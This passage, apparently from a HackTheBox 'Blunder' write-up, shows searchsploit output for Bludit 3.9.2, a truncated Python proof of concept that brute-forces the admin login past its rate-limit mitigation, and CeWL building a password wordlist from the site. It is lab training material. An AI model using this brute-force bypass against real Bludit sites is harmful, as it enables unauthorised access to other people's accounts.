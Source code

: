 # Exploitation

## Brute-Forcing the Login

Using searchsploit, we can see exploits for this version:

```bash
finlay@kali:~$ searchsploit bludit 3.9.2
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                 |  Path
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Bludit  3.9.2 - Authentication Bruteforce Mitigation Bypass                                                                                    | php/webapps/48746.rb
Bludit 3.9.2 - Directory Traversal                                                                                                             | multiple/webapps/48701.txt
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

The first one can be used to brute-force the login without being stopped. I found this PoC [here](https://rastating.github.io/bludit-brute-force-mitigation-bypass/), to allow for wordlist brute-forcing, I modified the start to this:

```python
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/'
username = 'fergus'
passlist = 'passlist.txt'
f = open(passlist)
content = f.readlines()
wordlist = [x.strip() for x in content]

for password in wordlist:
...
```

We can try using `fergus` as the username, but we still need a password list to use.

We can use a tool called CeWl to create a wordlist using the words from the website.

```bash
finlay@kali:~/htb/blunder$ cewl http://10.10.10.191 -w passlist.txt
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
finlay@kali:~/htb/blunder$ cat passlist.txt 
the
Load
Plugins
and
...
```
